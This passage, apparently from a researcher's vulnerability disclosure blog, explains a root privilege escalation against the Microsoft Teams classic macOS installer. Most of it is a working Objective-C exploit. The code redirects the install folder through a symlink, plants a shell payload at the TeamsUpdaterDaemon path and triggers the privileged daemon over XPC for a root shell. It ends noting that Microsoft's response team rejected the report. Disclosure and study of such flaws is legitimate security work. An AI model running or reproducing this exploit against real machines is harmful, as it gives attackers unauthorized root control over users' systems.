 An attacker can first redirect the root-owned PKG Payload contents to another location, and then write a payload at the path "`${UPDATER_DAEMON_FILE_IN_APP}`" directly to get the root privilege.

### The exploit and demo (for Teams_osx.pkg)

The exploit code is as follows:

```
#define TEAMS_APP_FOLDER "/Applications/Microsoft Teams classic.app"
#define XPC_FOLDER TEAMS_APP_FOLDER"/Contents/TeamsUpdaterDaemon.xpc/Contents/MacOS"
#define XPC_EXE_PATH XPC_FOLDER"/TeamsUpdaterDaemon"
void exploit_teams_pkg(void) {
    mkdir("/Applications/1337.app", 0777);
    symlink("/Applications/1337.app", TEAMS_APP_FOLDER);
    printf("[*] Waiting for Microsoft Teams classic installation...\npress enter when the installation is done.");
    getchar();
    
    unlink(TEAMS_APP_FOLDER);
    system("mkdir -p \""XPC_FOLDER"\"");
    printf("[*] Writing my LPE payload\n");
    [@"#!/bin/sh\ntouch /Library/LPE\n/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal\n" writeToFile:@XPC_EXE_PATH atomically:TRUE encoding:NSUTF8StringEncoding error:nil];
    chmod(XPC_EXE_PATH, 0777);
}

@protocol DUMMY
- (void)ping;
@end
void wakeup_daemon_xpc(void) {
    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithMachServiceName:@"com.microsoft.teams.TeamsUpdaterDaemon" options:NSXPCConnectionPrivileged];
    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DUMMY)];
    [connection resume];
    [connection.remoteObjectProxy ping];
    printf("[*] All done, enjoy the root shell :p\n");
}
```

The demo video: https://youtu.be/8h0N_n_XNQo

### Who should be blamed?

I reported this issue to Microsoft via the MSRC portal first. But they determined that it is not a vulnerability:

![image-20241124164346955](../res/2025-1-31-Endless-Exploits/image-20241124164346955.png)
